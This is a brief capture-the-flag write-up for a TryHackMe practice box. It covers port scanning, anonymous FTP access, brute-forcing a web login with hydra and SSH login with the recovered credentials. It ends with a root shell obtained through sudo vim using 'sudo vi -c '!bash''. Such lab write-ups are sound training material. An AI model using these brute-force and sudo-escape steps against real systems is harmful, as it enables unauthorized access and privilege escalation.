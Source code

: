 ## THM Easy CTF

### recon
Target IP: `10.10.54.244`

    PORT     STATE SERVICE
    21/tcp   open  ftp
    80/tcp   open  http
    2222/tcp open  EtherNetIP-1 (ssh) SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.8 exploit

### Path to root priveldge

ftp into port 21 
    login: anonymous

download: get Formitch.txt

feroxbuster: http port 80

    find login page with php.login


brute force login page with hydra using:
    username: mitch 
    password list: seclists top 100 or more passwords

username: mitch
password: secret


ssh into box on port 2222 with mitch as user
ssh -p 2222 mitch@<ip>
login with password above.

Next we need to see what sudo priveledges the user mitch might have
`sudo -l`

we see that we can run vim as root. this tells us we just need to launch a vim and escalate to root by either of these commands:

1. `sudo vi test.sh`
    
once inside the vim editor we just need to hit ESC to get to command mode and type out the command to open a root shell
`:!bash` viola!!! we are in

2. or you could try 
`sudo vi -c '!bash'` **note** the two looking single quotes in that command are different.
